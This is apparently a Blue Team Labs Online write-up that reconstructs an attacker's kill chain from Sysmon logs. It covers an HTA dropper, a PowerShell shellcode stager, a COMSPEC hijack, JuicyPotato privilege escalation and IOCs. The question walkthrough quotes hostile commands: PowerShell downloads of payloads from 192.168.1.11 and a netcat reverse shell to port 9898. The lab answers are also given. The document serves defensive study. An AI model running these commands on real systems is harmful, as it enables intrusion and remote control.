




# Log Analysis - Sysmon

**Platform:** Blue Team Labs Online
**Category:** Security Operations
**Difficulty:** Easy
**Date Completed:** 2021-05-07

---

## Scenario

> You are provided with Sysmon logs from a compromised endpoint. Analyse the logs to find out the steps and techniques used by the attacker.



## Objective

Reconstruct the attacker's kill chain from Sysmon logs on the compromised host MSEDGEWIN10 — identifying initial access, execution, discovery, privilege escalation, and C2.

## Tools Used

- jq
- kate
- CyberChef

---

## Analysis

### Initial Triage

- Log source: `sysmon-events.json` — 1484 events, JSON-lines format, each event wrapped in an `Event` key. Data under `.Event.EventData`, metadata under `.Event.System`.
- Host: MSEDGEWIN10 | User: MSEDGEWIN10\IEUser | Date: 2021-05-07

Event ID breakdown:

```
jq -s '[.[].Event.System.EventID] | group_by(.) | map({id: .[0], count: length})' sysmon-events.json
```

| Event ID | Type | Count |
|----------|------|-------|
| 1 | Process create | 428 |
| 3 | Network connect | 200 |
| 4 | Sysmon state change | 2 |
| 5 | Process terminated | 2 |
| 11 | File create | 815 |
| 15 | File stream (MOTW) | 4 |
| 16 | Sysmon config change | 1 |
| 22 | DNS query | 32 |

### Process Timeline

Pulled all process-create commands chronologically:

```
jq -s -r '.[] | select(.Event.System.EventID==1) | "\(.Event.EventData.UtcTime) | \(.Event.EventData.CommandLine)"' sysmon-events.json | sort
```

Kill chain reconstructed: malicious HTA → PowerShell shellcode injector → download `supply.exe` → COMSPEC hijack → host/priv discovery → download JuicyPotato → SYSTEM reverse shell → UAC bypass.



### PowerShell Stager

The `powershell.exe -nop -w hidden -e <base64>` payload decoded (CyberChef: From Base64 → Gunzip) to a reflective shellcode injector: resolves `VirtualAlloc` / `CreateThread` / `WaitForSingleObject`, allocates RWX memory (`0x40` = PAGE_EXECUTE_READWRITE), and runs embedded Metasploit shellcode on a new thread.

### Malware Language

Filtered EventID 11 (file create) for PyInstaller artifacts:

```
jq -s -r '.[] | select(.Event.System.EventID==11) | .Event.EventData.TargetFilename' sysmon-events.json | grep -iE '_MEI|\.pyd|python[0-9]*\.dll' | sort -u
```

Output:

```
C:\Users\IEUser\AppData\Local\Temp\_MEI99922\msvcr90.dll
C:\Users\IEUser\AppData\Local\Temp\_MEI99922\python27.dll
```

The `_MEI` extraction folder + `python27.dll` = PyInstaller signature. `msvcr90.dll` is the VC++ 2008 runtime Python 2.7 depends on.



---

## Question Walkthrough

**Q1: What is the file that gave access to the attacker?**
**Answer:** `updater.hta`
User executed the malicious HTA via mshta: `"C:\Windows\SysWOW64\mshta.exe" "C:\Users\IEUser\Downloads\updater.hta"`.

**Q2: What is the powershell cmdlet used to download the malware file and what is the port?**
**Answer:** `Invoke-WebRequest` / port `6969`
`powershell -c Invoke-WebRequest -Uri http://192.168.1.11:6969/supply.exe -OutFile C:\Windows\Temp\supply.exe`.

**Q3: What is the name of the environment variable set by the attacker?**
**Answer:** `comspec`
`cmd /c set comspec=C:\windows\temp\supply.exe` — redirects the command processor to the malware.

**Q4: What is the process used as a LOLBIN to execute malicious commands?**
**Answer:** `ftp.exe`



**Q5: Malware executed multiple same commands at a time, what is the first command executed?**
**Answer:** `ipconfig`
`supply.exe /c "ipconfig"` ran first (repeated), before the repeated `whoami` / `whoami /priv`.

**Q6: Looking at the dependency events around the malware, can you figure out the language the malware is written in?**
**Answer:** `Python` (2.7, packed with PyInstaller)
Confirmed by `_MEI99922\python27.dll` and `msvcr90.dll` in EventID 11 file-create events.

**Q7: Malware then downloads a new file, find out the full url of the file download.**
**Answer:** `https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe`
`supply.exe /c "powershell -c Invoke-WebRequest -Uri https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe -OutFile C:\Windows\Temp\juice.exe"`.

**Q8: What is the port the attacker attempts to get reverse shell?**
**Answer:** `9898`
`juicy.exe -l 9999 -p nc.exe -a "192.168.1.11 9898 -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}` — netcat shovels a shell to 192.168.1.11:9898.

---

## IOCs

| Type | Value |
|------|-------|
| File / Path | C:\Users\IEUser\Downloads\updater.hta |
| File / Path | C:\Windows\Temp\supply.exe |
| File / Path | C:\Windows\Temp\juice.exe (JuicyPotato) |
| File / Path | C:\Users\IEUser\AppData\Local\Temp\_MEI99922\ |
| IP | 192.168.1.11 |
| Port | 6969 (payload download) |
| Port | 9898 (reverse shell) |
| URL | https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe |

## Analyst Notes

Second-stage `supply.exe` is a Python 2.7 PyInstaller binary acting as a command runner for the attacker. MITRE ATT&CK: T1566 (Phishing), T1218.005 (Mshta), T1059.001 (PowerShell), T1027 (Obfuscation), T1055 (Process Injection), T1105 (Ingress Tool Transfer), T1546 (COMSPEC hijack), T1016/T1033/T1057 (Discovery), T1068 (JuicyPotato priv-esc), T1548.002 (UAC bypass via eventvwr).

## Key Takeaways

- Reconstructing a full kill chain from raw Sysmon JSON using jq.
- Decoding layered base64+gzip PowerShell to identify a Metasploit shellcode injector.
- Using EventID 11 dependency artifacts (`_MEI`, `python27.dll`) to fingerprint malware language.
